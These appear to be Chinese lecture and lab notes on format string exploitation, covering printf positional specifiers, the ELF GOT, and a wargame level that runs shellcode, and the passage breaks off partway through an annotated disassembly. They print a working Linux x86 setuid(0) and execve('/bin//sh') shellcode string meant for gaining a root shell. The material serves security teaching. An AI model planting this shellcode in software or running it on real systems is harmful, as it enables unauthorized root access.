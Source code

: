 # Format String Vulnerability Lec&Lab--Part 2 Shellcode

本文作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)、边城

# Lec

#### 2、为了顺利完成下节课，建议仔细阅读下面这篇文章的Level 9部分：

https://infamoussyn.com/2013/09/11/smashthestack-io-walkthrough-part-b-levels-6-10/
https://tomasuh.github.io/2015/01/19/IO-Wargame.html
，文章中利用.dtors的办法只是利用格式化字符串执行shellcode的一种形式。
printf中%2\$d这类格式的含义如下：
Character Description 
n\$ 

n 是要使用此格式说明符显示的参数的编号，允许使用不同的格式说明符或以不同的顺序多次输出提供的参数。这是一个 POSIX 扩展，而不是在 C99 中。
示例：` printf("%2$d %1$#x %1$d",16,17) `生成"17 0x10 16"

Level 9仍然格式字符串攻击，在系统之间拥有两个非常便于携带的地址，使用argv [1]的地址覆盖保存的返回地址来利用格式字符串漏洞和执行shellcode。

#### 3、描述linux ELF文件中，全局偏移表GOT表(Global Offset Table)的作用。

ELF(Executable and Linking Format)格式的共享库使用 PIC 技术使代码和数据的引用与地址无关，程序可以被加载到地址空间的任意位置。PIC在代码中的跳转和分支指令不使用绝对地址。PIC 在 ELF 可执行映像的数据段中建立一个存放所有全局变量指针的全局偏移量表GOT

 

对于模块外部引用的全局变量和全局函数，用 GOT表的表项内容作为地址来间接寻址；对于本模块内的静态变量和静态函数，用 GOT表的首地址作为一个基准，用相对于该基准的偏移量来引用，因为不论程序被加载到何种地址空间，模块内的静态变量和静态函数与GOT 的距离是固定的，并且在链接阶段就可知晓其距离的大小。这样，PIC 使用 GOT来引用变量和函数的绝对地址，把位置独立的引用重定向到绝对位置。

 

对于 PIC代码，代码段内不存在重定位项，实际的重定位项只是在数据段的 GOT 表内。共享目标文件中的重定位类型有R_386_RELATIVE、R_386_GLOB_DAT 和R_386_JMP_SLOT，用于在动态链接器加载映射共享库或者模块运行的时候对指针类型的静态数据、全局变量符号地址和全局函数符号地址进行重定位。



#### 4、解释一下什么叫shellcode。

下面这段代码被root编译并且suid后，普通用户是否能获得root shell？

解释"\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"其中的含义。

```c
/*
 * gcc -z execstack -o setuid-linux setuid-linux.c *
 * setuid-linux.c - setuid/execve shellcode for Linux/x86
 * Short fully-functional setuid(0) and /bin/sh execve() shellcode.
 */

/* 
 * setuid(0)
 *
 * 8049380:       6a 17                   push   $0x17
 * 8049382:       58                      pop    %eax
 * 8049383:       31 db                   xor    %ebx,%ebx
 * 8049385:       cd 80                   int    $0x80
 *
 * execve("/bin//sh", ["/bin//sh"], NULL)
 *
 * 8049387:       6a 0b                   push   $0xb
 * 8049389:       58                      pop    %eax
 * 804938a:       99                      cltd   
 * 804938b:       52                      push   %edx
 * 804938c:       68 2f 2f 73 68          push   $0x68732f2f
 * 8049391:       68 2f 62 69 6e          push   $0x6e69622f
 * 8049396:       89 e3                   mov    %esp,%ebx
```